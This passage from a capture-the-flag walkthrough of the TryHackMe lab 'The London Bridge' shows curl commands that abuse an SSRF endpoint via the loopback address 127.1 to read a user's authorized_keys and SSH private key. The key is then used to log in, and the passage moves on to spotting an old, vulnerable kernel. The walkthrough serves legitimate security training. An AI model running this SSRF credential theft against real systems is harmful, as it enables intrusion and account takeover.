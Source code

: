 ```bash
└─$ curl http://10.10.162.211:8080/view_image -X POST -d "www=http://127.1:80/.ssh/authorized_keys" 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDPXIWuD0UBkAjhHftpBaf949OT8wp/PYpD44TjkoSuC4vfhiPkpzVUmMNNM1GZz681FmJ4LwTB6VaCnBwoAJrvQp7ar/vNEtYeHbc5TFaJIAA5FN5rWzl66zeCFNaNx841E4CQSDs7dew3CCn3dRQHzBtT4AOlmcUs9QMSsUqhKn53EbivHCqkCnqZqqwTh0hkd0Cr5i3r/Yc4REqsVaI41Cl3pkDxrfbmhZdjxRpES8pO5dyOUvnq3iJZDOxFBsG8H4RODaZrTW78eZbcz1LKug/KlwQ6q8+e4+mpcdm7sHAAszk0eFcI2a37QQ4Fgq96OwMDo15l8mDDrk1Ur7aF beth@london
```

These files indeed contained the SSH private and public keys of a local user. The name of this user can be seen in the authorized_keys file and it appears to be beth. Let's download the private key and log in as the user Beth.
```bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/The London Bridge/Misc File]
└─$ curl -s http://10.10.162.211:8080/view_image -X POST -d "www=http://127.1:80/.ssh/id_rsa"  > beth_id_rsa; chmod 600 beth_id_rsa

┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/The London Bridge/Misc File]
└─$ ssh beth@10.10.162.211 -i beth_id_rsa 
The authenticity of host '10.10.162.211 (10.10.162.211)' can't be established.
<SNIP>
Last login: Mon May 13 22:38:30 2024 from 192.168.62.137
beth@london:~$ ls __pycache__/
app.cpython-36.pyc  gunicorn_config.cpython-36.pyc  user.txt
```

## Post Exploitation

At this stage in our assessment, we have obtained a foothold on the target and obtained the user flag on the system. We can use this foothold to enumerate further our enumeration. During our enumeration, will notice that the target's kernel is very old.
```bash
beth@london:/tmp$ uname -a 
Linux london 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```

A Google search reveals that this kernel version has a privilege escalation vulnerability.
![](/assets/img/posts/walthrough/tryhackme/2024-09-29-thelondonbridge/exploit-identify.png)
